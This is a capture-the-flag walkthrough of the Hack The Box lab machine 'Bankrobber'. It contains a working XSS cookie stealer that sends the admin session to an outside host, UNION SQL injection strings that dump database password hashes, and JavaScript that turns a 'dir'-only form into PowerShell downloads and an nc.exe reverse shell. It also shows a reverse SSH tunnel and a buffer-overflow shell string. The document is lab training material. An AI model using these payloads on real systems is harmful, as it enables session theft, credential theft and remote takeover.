








<h1>Bankrobber</h1>
<a href="index.html">Home</a>/Bankrobber - Hack The Box<br>
<br>
<br>
This was my first active box on HTB that I was able to root, and it's rated at insane difficulty. So I thought this would be a great place to start my first write-up. This being a box I solved almost 6 months ago, bear with me as I try to remember exactly what I did based on scattered notes I jotted down. I'm not writing this like a traditional Pentest report to a client. It's the walkthrough I wish someone had handed me, my actual thought process recaptured so you can follow the flow.

I liked this box a lot because it consisted of web vulnerabilities that I already knew how to find and exploit and emulated a realistic Pentest. 

The only issue I had was this box required a bot to impersonate an admin's session and the response time for this was just not there, which was a major detour, almost to the point that I gave up. After I climbed that wall, I was able to get initial foothold and eventually rooted within a few days.

----

### Synopsis

Bankrobber is a web app box that can be solved with some essential OWASP top 10 knowledge to get a user shell, and some basic binary exploitation to escalate to root.

----

### Reconnaissance

Well, before any PT, you first must know what the scope of the engagement is. What do we already know, and what must we find out? We know that this is a Windows host from the description card and HTB provided the IP address of our target. So we turn to `Nmap` a faithful and reliable tool that is almost as old as the internet itself. Then initiate a scan and probe all common TCP ports to discover some services to test.
```bash
# nmap -e tun0 -n -v -Pn -p80,443,445,3306 -A --reason -oN nmap.txt 10.10.10.154
...
PORT     STATE SERVICE      REASON          VERSION
80/tcp   open  http?        syn-ack ttl 127
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-title: E-coin
443/tcp  open  ssl/http     syn-ack ttl 127 Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-title: E-coin
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
445/tcp  open  microsoft-ds syn-ack ttl 127 Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql        syn-ack ttl 127 MariaDB (unauthorized)
```
We see here that HTTP/s web services are available at standard ports 80 and 443, an MYSQL database on standard 3306 as well as an open port on 445 standard SMB which is another way to determine the likeliness this is a Windows machine.


Since the name of the challenge is BankRobber, I think it is pretty safe to assume there is a bank involved.

Before looking at the network stack I always begin with the application layer. So I load up my HTTP proxy/sniffer/injector/fuzzer Burp Suite, the Swiss army knife of HTTP testing, and surf over to the web site to have a look-see at this Bank's applications and see what she is made of.

So we see here that this is some kind of BitCoin operation. Let's learn more...


### Web Enumeration
We see that this is a site for users to buy and sell E-Coin cryptocurrency.
There is a LOGIN and Register link in the top right head of the page.
We can register an account and log in to discover a mechanism for transferring funds from account to account and a text field to leave a comment.

<b>Directory/File Enumeration</b>

First I spider with Burp to crawl the site and build a map.



While in my terminal I run `Gobuster` with `Seclists` because I wanted to compare/contrast the difference.
```bash
# gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt -t 40 -x php,txt,log -u http://10.10.10.154/
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.154/
[+] Threads:        40
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,log
[+] Timeout:        10s
===============================================================
2019/09/24 02:34:03 Starting gobuster
===============================================================
/login.php (Status: 302)
/user (Status: 301)
/admin (Status: 301)
/js (Status: 301)
/logout.php (Status: 302)
/css (Status: 301)
/register.php (Status: 200)
/img (Status: 301)
/webalizer (Status: 403)
/index.php (Status: 200)
/fonts (Status: 301)
/phpmyadmin (Status: 403)
/link.php (Status: 200)
/notes.txt (Status: 200)
/licenses (Status: 403)
/server-status (Status: 403)
/con (Status: 403)
/con.php (Status: 403)
/con.txt (Status: 403)
/con.log (Status: 403)
Progress: 8536 / 17771 (48.03%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2019/09/24 02:41:33 Finished
===============================================================
```
`login.php` and `register.php` both have input fields, and I make a note to test later.

The `/admin` dir is not accessible; session management and authorization will be tested.

`notes.txt` provided some useful Dev notes left behind possibly for later.



Let's do a quick HTTP packet header analysis of the `.php` files with `curl`

`login.php`

```bash
$curl -i -d "username=admin&password=admin" http://10.10.10.154/login.php
HTTP/1.1 302 Found
Date: Thu, 19 Mar 2020 08:07:28 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
X-Powered-By: PHP/7.3.4
Location: index.php
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```
`register.php`

```bash
# $curl -i -d "username=admin&password=admin" http://10.10.10.154/register.php
HTTP/1.1 302 Found
Date: Thu, 19 Mar 2020 08:06:55 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
X-Powered-By: PHP/7.3.4
Location: index.php?msg=User already exists.
Content-Length: 0
Content-Type: text/html; charset=UTF-8

```
We can now see that users can be enumerated by `msg=User already exist` 
and we identified an account with the username `admin` 

Let's see what happens if we create a user that doesn't exist.
```bash
$curl -i -d "username=mother&password=goose" http://10.10.10.154/register.php
HTTP/1.1 302 Found
Date: Thu, 19 Mar 2020 08:05:28 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
X-Powered-By: PHP/7.3.4
Location: index.php?msg=User created.
Content-Length: 0
Content-Type: text/html; charset=UTF-8

```

OK, that seemed to work. Now let's try to log in with our fresh account.
```bash
 $curl -i -d "username=mother&password=goose" http://10.10.10.154/login.php
HTTP/1.1 302 Found
Date: Thu, 19 Mar 2020 08:08:39 GMT
Server: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
X-Powered-By: PHP/7.3.4
Set-Cookie: id=25
Set-Cookie: username=bW90aGVy
Set-Cookie: password=Z29vc2U%3D
Location: user
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```
The response headers here tell us a lot of useful information about the authentication mechanisms in place.

`Location: user` indicates redirection to the `/user` dir 
we can assume admin should get redirected to `/admin`

cookie-based authentication:
`Set-Cookie: id=25` tells us it's likely there are 25 other accounts 
`id=1` or `0` is probably the admin.

The username and password values are base64 and url-encoded.

We can try a few basic passwords to attempt to log in as admin but fail.
There are no lockout mechanisms for attempts made.
This sets the stage for a Brute Force attack if all else fails,
but brute-forcing an insane box felt like bringing a sledgehammer to a lockpick job, so I held off for now. 


So now I switch over to Burp and Browser and head over to `login.php` and log back in with our account and attempt to transfer some funds.



Once I submit the transfer I get prompted with a JS alert stating that the `admin` will review our input in a minute. This is a critical clue and enough for us to formulate an attack. 



After our examination, we know that the session tokens are static credentials and the transfers are done in JavaScript. This is an indication of a possible blind XSS vulnerability where, when the `admin` reviews our input, he will execute our malicious script, which will reflect his session cookies back to our C2. 

We might be able to utilize this to reflect and execute a .js stored on our own C2 host to drop and execute a payload, which can give us a shell.


So now that we've formulated our devious masterplan, let's build the tools we need to pull it off.

### Weaponization: XSS->session hijacking
Here we build a simple XSS to drop in the comment box in `transfer.php`

XSS Cookie grabber - gets the session token of the admin and reflects it back to us through the url

XSS payload
```javascript
<script src=http://10.10.14.40/getcookie.js%3E</script>
```
`getcookie.js`
```
function getCookie() {
    var img = document.createElement("img");
    img.src = "http://10.10.14.40/xss?=" + document.cookie;
    document.body.appendChild(img);
}
getCookie();
```


### Delivery

So from my localbox terminal I use a Python module called http.server (used to be simpleHTTPserver)
Note: be patient; it will work in about 2-5 minutes.
```bash
$sudo python -m http.server 80
[sudo] password for account: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.154 - - [21/Mar/2020 00:21:57] "GET /getcookie.js HTTP/1.1" 200 -
10.10.10.154 - - [21/Mar/2020 00:21:57] code 404, message File not found
10.10.10.154 - - [21/Mar/2020 00:21:57] "GET /xss?=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1 HTTP/1.1" 404 -
```
Ok we got our session token, if we urldecode it in URL then base64 decode it in bash.
```bash
┌─[✗]─[account@parrot]─[~/tmp]
└──╼ $alias urldecode='python3 -c "import sys, urllib.parse as ul; \
>     print(ul.unquote_plus(sys.argv[1]))"'
┌─[account@parrot]─[~/tmp]
└──╼ $urldecode 'YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20'
YWRtaW4=; password=SG9wZWxlc3Nyb21hbnRpYw==; 
┌─[account@parrot]─[~/tmp]
└──╼ $echo "YWRtaW4=" | base64 -d
admin
┌─[account@parrot]─[~/tmp]
└──╼ $echo "SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20'" | base64 -d
Hopelessromantic
```
Now we got admin creds `admin:Hopelessromanticbase64` for an initial foothold.

### Web Enumeration: Admin Panel


 There is a lot of interesting input/output.
 We see a table for pending transaction approval. The backend of our XSS payload.
 We know from our initial port scan that there is a MYSQL DB. This is worth testing for SQL injection.
 Then our next input field takes a numeric value and returns another table. Out of habit I instantly inserted an escape quote that returns `There is a problem with your SQL syntax`, which signifies a SQLi point. You could use a tool like SQLmap for this, but what fun would that be?
 
 **SQL injection**
`1'OR'1' AND '1'='2' order by 3-- `
  Tells us there are 3 columns, 2 visable, 1 hidden.
`1'OR'1' AND '1'='2' union select 1,user(),3-- `
 gives us the user and hostname of the SQLdb which is localhost since it's on the same machine as this application.
 
<table style="width:100%">
  <tr>
    <th>ID</th>
    <th>User</th>
  </tr>
  <tr>
    <td>Admin</td>
    <td>root@localhost</td>
  </tr>
</table>

`1'or'1' AND '1'='2' UNION SELECT table_name, column_name, 1 FROM information_schema.columns-- `
this will dump every column name in the schema.

`1'OR'1' AND '1'='2' UNION SELECT table_schema, table_name, 1 FROM information_schema.tables-- `
this will dump every table name in the schema.
 
`1'OR'1' AND '1'='2' UNION SELECT group_concat(table_name), 2, 3 FROM information_schema.tables WHERE table_schema=database()-- `
return the database name.

```mysql
/*
DB name: bankrobber 
user: root@localhost
version: 10.1.38-MariaDB 
*/

1'OR'1' AND '1'='2' UNION SELECT concat(host, user, password),2,3 FROM mysql.user-- 

/*
localhostroot*F435725A173757E57BD36B09048B8B610FF4D0C4    2
127.0.0.1root*F435725A173757E57BD36B09048B8B610FF4D0C4    2
::1root*F435725A173757E57BD36B09048B8B610FF4D0C4    2
localhost    2
localhostpma    2
HASH: F435725A173757E57BD36B09048B8B610FF4D0C4

Possible Hashs:
[+]  SHA-1
[+]  MySQL5 - SHA-1(SHA-1($pass))
F435725A173757E57BD36B09048B8B610FF4D0C4 MySQL4.1/MySQL5 
User: root
Password Welkom1!
*/
```
So after picking the DB apart I was able to get a password hash.
That I was easily able to crack using rainbow tables.

So let's look at the third input field.

Backdoorchecker:
To quickly identify backdoors located on our server;
we implemented this function.
For safety issues you're only allowed to run the 'dir' command with any arguments.

So we run `dir` into the field and get prompted.

`It's only allowed to access this function from localhost (::1).
This is due to the recent hack attempts on our server.`

I tried a bunch of curl POST requests, spoofing the headers to make it look like the packet was coming from localhost, but no cigar.

### Weaponization/Delivery/Exploitation/Installation:
**XSS->SSRF->RCE**

After taking a short break, I realized that maybe we can't manipulate the backdoorchecker field from our host, but why not just go back to the XSS we found in the coin transfer and do SSRF to get an RCE? In-fucking-deed! 

let's weaponize this mothafucker.


XSS To drop nc.exe:
`<script src=http://10.10.14.40/payd.js%3E</script>`

XSS to Reverse Shell:
`<script src=http://10.10.14.40/pay.js%3E</script>`

`payd.js`
```
//Dropper:
function paintfunc(){
    var http = new XMLHttpRequest();
        var url = 'http://localhost/admin/backdoorchecker.php';
        var params = 'cmd=dir | powershell -c Invoke-WebRequest -Uri "http://10.10.14.40/nc.exe" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe"';
        http.open('POST', url, true);
        http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
        http.send(params);
}

paintfunc();
```
`pay.js`
```
//Execution:
function paintfunc(){
    var http = new XMLHttpRequest();
        var url = 'http://localhost/admin/backdoorchecker.php';
        var params = 'cmd=dir | powershell -c "C:\\windows\\system32\\spool\\drivers\\color\\nc.exe" -e cmd.exe 10.10.14.40 4444';
        http.open('POST', url, true);
        http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
        http.send(params);
}

paintfunc();
```
delivered our payload and confirmation of our drop.
```
┌─[account@parrot]─[~/tmp]
└──╼ $sudo python -m http.server 80
[sudo] password for account: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.40 - - [21/Mar/2020 05:34:52] "GET / HTTP/1.1" 200 -
10.10.10.154 - - [21/Mar/2020 05:37:54] "GET /payd.js HTTP/1.1" 200 -
10.10.10.154 - - [21/Mar/2020 05:37:55] "GET /nc.exe HTTP/1.1" 200 -
```
Initialize a netcat TCP socket to listen for our reverse shell.
`nc -lvp 4444`
Start my webserver for SSRF
```
┌─[account@parrot]─[~/tmp]
└──╼ $sudo python -m http.server 80
[sudo] password for account: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.154 - - [21/Mar/2020 05:37:54] "GET /payd.js HTTP/1.1" 200 -
10.10.10.154 - - [21/Mar/2020 05:37:55] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.154 - - [21/Mar/2020 06:01:54] "GET /pay.js HTTP/1.1" 200 -
```
After sending our XSS payload and waiting. We eventually get our user shell.
```
┌─[account@parrot]─[~/tmp]
└──╼ $nc -lvp 4444
listening on [any] 4444 ...
10.10.10.154: inverse host lookup failed: Unknown host
connect to [10.10.14.40] from (UNKNOWN) [10.10.10.154] 51129
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. Alle rechten voorbehouden.

C:\xampp\htdocs\admin>whoami
whoami
bankrobber\cortin
```
Now we can begin enumerating the OS and its services/processes/files for a privilege escalation.

Interestingly, we found a bankv2.exe binary in the root directory.

```
C:\xampp\htdocs\admin>netstat -a
netstat -a

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:80             Bankrobber:0           LISTENING
  TCP    0.0.0.0:135            Bankrobber:0           LISTENING
  TCP    0.0.0.0:443            Bankrobber:0           LISTENING
  TCP    0.0.0.0:445            Bankrobber:0           LISTENING
  TCP    0.0.0.0:910            Bankrobber:0           LISTENING
  TCP    0.0.0.0:3306           Bankrobber:0           LISTENING
```
We can also see an unorthodox service on 910.

### Command and Control


So I dropped another tool on the system, `plink.exe`, a much more evasive means to remain silent while forwarding a port through a reverse tunnel.

Run `powershell.exe` and Invoke a request to get plink.
```
Invoke-WebRequest -Uri "http://10.10.14.40/plink.exe" -OutFile "C:\\windows\\system32\\spool\\drivers\\color\\plink.exe"
```
our C2:
```
10.10.10.154 - - [21/Mar/2020 06:33:52] "GET /plink.exe HTTP/1.1" 200 -
```
Fire up plink and forward the port onto the C2 through a reverse SSH tunnel, so make sure you have `ssh service start` running.
```
#.\plink.exe -P 22 -l account -N -C -R 4000:127.0.0.1:910 10.10.14.40
```
So now we can see that this is an internal bank service that prompts us for a PIN.
```
┌─[account@parrot]─[~/tmp]
└──╼ $nc localhost 4000
 --------------------------------------------------------------
 Internet E-Coin Transfer System
 International Bank of Sun church
                                        v0.1 by Gio & Cneeliz
 --------------------------------------------------------------
 Please enter your super secret 4 digit PIN code to login:
 [$] 

```
Started to look for memory corruption vulnerabilities like a BoF but found nothing, so I wrote a quick BF script in Python.

```python
from itertools import product

chars = '0123456789' # chars to look for

for length in range(1, 3): # only do lengths of 1 + 2
    to_attempt = product(chars, repeat=length)
    for attempt in to_attempt:
        print(''.join(attempt))
```

and it instantly returns a success at `0021`

```
Please enter your super secret 4 digit PIN code to login:
 [$] 0021
 [$] PIN is correct, access granted!
 --------------------------------------------------------------
 Please enter the amount of e-coins you would like to transfer:
 [$] .........
 [!] You waited too long, disconnecting client....
```
It timed out if I waited too long. 
I began to add more and more characters to the input until I noticed the output started to become overwritten.

Now we know there is a BoF.

You have to be careful here because you can easily crash the service and have to start again from stage one, as I did once.

I finally crafted a payload that enables me to overwrite the area in memory where `transfer.exe` is called and execute a system command that will give us our `root` reverse bind shell.

```
#dgdasgadsghsdkjghsdjhgfsadhgsadhC:\windows\system32\spool\drivers\color\nc.exe 10.10.14.40 6962 -e cmd.exe
```


### Actions on Objective
Flags exfiltrated.

